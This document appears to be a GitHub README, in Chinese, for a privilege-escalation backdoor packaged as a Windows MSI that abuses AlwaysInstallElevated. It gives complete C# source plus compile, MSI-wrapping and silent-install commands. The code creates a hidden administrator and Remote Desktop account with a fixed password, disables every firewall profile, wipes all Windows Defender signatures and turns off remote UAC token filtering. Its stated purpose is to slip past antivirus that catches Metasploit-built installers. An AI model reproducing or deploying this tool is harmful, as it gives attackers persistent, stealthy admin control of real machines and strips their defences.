




# backdoor-msi

利用AlwaysInstallElevated，安装程序，创建管理员用户，关闭防火墙，清除Windows Defender 病毒库。

由于msf直接生成的msi会被杀，所以才用这种方式

## 功能

- **用户创建**  
  创建本地用户 `rasalghul`，密码 `Test123456`，并将其添加到 `Administrators` 和 `Remote Desktop Users` 组。

- **防火墙关闭**  
  关闭所有网络配置文件下的 Windows 防火墙。

- **Defender 致盲**  
  清除 Windows Defender 全部病毒定义，使其实时保护功能失效。

- **远程 UAC 绕过**  
  将 `LocalAccountTokenFilterPolicy` 设置为 `1`，使本地管理员在访问管理共享（如 `ADMIN$`、`C$`）时保留完整管理员令牌。

## 编译exe

源码

```csharp
using System;
using System.Diagnostics;
using Microsoft.Win32;

class Backdoor
{
    static void Main()
    {
        // --- User & Group Creation ---
        // 创建新用户并加入管理员组和远程桌面组
        Cmd("net user rasalghul Test123456 /add");                // Add user
        Cmd("net localgroup Administrators rasalghul /add");      // Elevate to admin
        Cmd("net localgroup \"Remote Desktop Users\" rasalghul /add"); // Allow RDP

        // --- Firewall ---
        // 关闭所有配置文件的防火墙
        Cmd("netsh advfirewall set allprofiles state off");      // Disable all firewall profiles

        // --- Defender ---
        // 移除 Windows Defender 所有病毒定义，使其失效
        Cmd("\"C:\\Program Files\\Windows Defender\\MpCmdRun.exe\" -RemoveDefinitions -All"); // Remove all AV signatures

        // --- Remote UAC Bypass ---
        // 解除远程UAC限制，允许本地管理员通过SMB获得完整令牌
        SetRemoteUacBypass();                                    // Allow full admin token over network
    }

    // Set LocalAccountTokenFilterPolicy = 1 to disable remote UAC token filtering
    // 设置 LocalAccountTokenFilterPolicy = 1，允许本地管理员在网络登录时保留完整管理员令牌
    static void SetRemoteUacBypass()
    {
        try
        {
            const string keyPath = @"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System";
            const string valueName = "LocalAccountTokenFilterPolicy";
            using (RegistryKey key = Registry.LocalMachine.OpenSubKey(keyPath, true))
            {
                if (key != null)
                {
                    key.SetValue(valueName, 1, RegistryValueKind.DWord);
                }
                else
                {
                    // Create key if missing
                    // 如果键不存在则创建
                    using (RegistryKey newKey = Registry.LocalMachine.CreateSubKey(keyPath))
                    {
                        newKey?.SetValue(valueName, 1, RegistryValueKind.DWord);
                    }
                }
            }
        }
        catch (Exception ex)
        {
            // Silent fail to maintain stealth
            // 静默失败保持隐蔽
            Console.WriteLine("[-] Failed to set LocalAccountTokenFilterPolicy: " + ex.Message);
        }
    }

    // Execute a hidden command and wait for completion
    // 隐藏执行命令并等待完成
    static void Cmd(string args)
    {
        try
        {
            Process.Start(new ProcessStartInfo("cmd.exe", "/c " + args)
            {
                WindowStyle = ProcessWindowStyle.Hidden,
                CreateNoWindow = true,
                UseShellExecute = false
            })?.WaitForExit();
        }
        catch { } // Ignore all exceptions to stay stealthy / 忽略所有异常保持隐蔽
    }
}
```

编译

```bash
csc /platform:x64 /out:backdoor.exe backdoor.cs
```

## 转换

使用：[Free Download - MSI Wrapper Convert EXE to MSI free](https://www.exemsi.com/download/)









## 使用

```csharp
msiexec /quiet /qn /i backdoor.msi
```
